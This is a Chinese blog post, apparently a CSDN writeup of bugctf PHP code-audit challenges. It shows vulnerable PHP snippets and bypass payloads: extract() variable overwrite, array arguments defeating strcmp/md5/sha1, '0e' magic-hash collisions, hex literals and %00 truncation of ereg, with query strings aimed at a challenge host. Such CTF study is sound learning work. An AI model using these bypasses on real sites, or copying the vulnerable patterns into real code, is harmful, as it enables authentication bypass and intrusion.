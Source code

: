 <!--yml
category: 未分类
date: 2022-04-26 14:51:53
-->

# bugctf web代码审计 writeup_R_1v3r的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_20307987/article/details/88691708](https://blog.csdn.net/qq_20307987/article/details/88691708)

把题目做完了，记录一下题解

## extract变量覆盖

```
<?php
$flag='xxx';
extract($_GET);
if(isset($shiyan))
{
$content=trim(file_get_contents($flag));
if($shiyan==$content)
{
echo'flag{xxx}';
}
else
{
echo'Oh.no';
}
}
?>

http://123.206.87.240:9009/1.php?flag=NULL&shiyan=
Flag=php：//input & shiyan  = 1 
POST 1 
```

## strcmp比较字符串

```
在Php 5.3以后
GET /6.php?a[]=1 
Strcmp比较数组和字符串的时候回返回0
就是和相等时一样的 
```

## Urldecode二次编码绕过

```
浏览器回进行一次urldecode所以要对hackerDJ进行两次urlencode 
```

## md5函数

```
 Md5三等号用数组绕过
    二等号用0e绕过

数组返回NULL绕过
先来谈论一下标准的答案：

第一个条件：
     必须以数字或者字母开头（其实看到ereg就可以想到%00截断）

第二个条件：
       必须在password参数中找到--。

所以得出以下正解：
  index.php?password=a%00--
    那么话又说回来了，为什么直接password[]=a就可以绕过呢？
    1.ereg只能处理字符，而你是数组，所以返回的是null，三个等号的时候不会进行类型转换。所以null不等于false。
    2.strpos的参数同样不能够是数组，所以返回的依旧是null，null不等于false也是正确。 
```

## 弱类型整数大小比较绕过

```
解题思路:is_numeric()函数对于空字符%00，无论是%00放在前后都可以判断为非数值，而%20空格字符只能放在数值后。所以，查看函数发现该函数对于第一个空格字符会跳过空格字符判断，接着后面的判断
GET /22.php?password[]=23333  涉及到函数对数组的处理
GET /22.php?password=233333abc 涉及到类型转换
password=2345%00 涉及到截断
password=2345%20

sha()函数比较绕过
Sha()处理数组时候，回返回NULL，所以可以绕过===

name[]=123&password[]=1234 
```

## Md5加密相等绕过

```
<?php
$md51 = md5('QNKCDZO');
$a = @$_GET['a'];
$md52 = @md5($a);
if(isset($a)){
if ($a != 'QNKCDZO' && $md51 == $md52) {
echo "flag{*}";
} else {
echo "false!!!";
}}
else{echo "please input a";}
?>

这个题目如果知道MD5碰撞的概念，同时知道了在PHP中的MD5中的0e的比较，这道题目就十分的简单。

如果md的值是以0e开头的，那么就与其他的0e开头的Md5值是相等的。例子如下：

md5('s878926199a')=0e545993274517709034328855841020
md5('s155964671a')=0e342768416822451524974117254469
//可以看到两者的md5值都是以0e开头的，则
md5('s878926199a')==md5('s155964671a') //就是True

详细解释：

php关于==号是这样处理的，如果一边是整型，另一边也需要是整型。

0e545993274517709034328855841020

这是一个整数，在php里是理解为0*10^4549...20的意思，那么其值是0

同样

0e342768416822451524974117254469

这是一个整数，在php里是理解为0*10^34..69的意思，那么其值是0

举一个反面的例子

1e1和1e2

1e1 == 1e2 这个结果是对是错？

这里1e1=1*10^1=10

1e2=1*10^2=100

所以1e1 == 1e2这是false，但是

100 == 1e2 这是true，为什么1e2先转为整型，是100

注意，对于e是指幂次。而其他26字符并不具有此能力。 
```

## 十六进制与数字比较

```
首先分析代码，函数要求变量$temp不能存在1~9之间的数字，
最后，又要求$temp=3735929054;
这本来是自相矛盾的，但php在转码时会把16进制转化为十进制.于是把
3735929054转换成16进制为0xdeadc0de，记得带上0x；
构造payload

?password=0xdeadc0de 
```

## ereg正则截断

```
GET /5.php?password=1e9%00*-*
GET /5.php?password[]=1
原理测试代码
<?php
var_dump(strpos($_GET['password'],'-'));

var_dump(ereg ("^[a-zA-Z0-9]+$", $_GET['password'])); 

var_dump(NULL === FALSE);

?> 
```

## strpos数组绕过

```
Ctf[]=1
同样的套路（函数处理数组的问题 
```

Ctf[]=1
同样的套路
）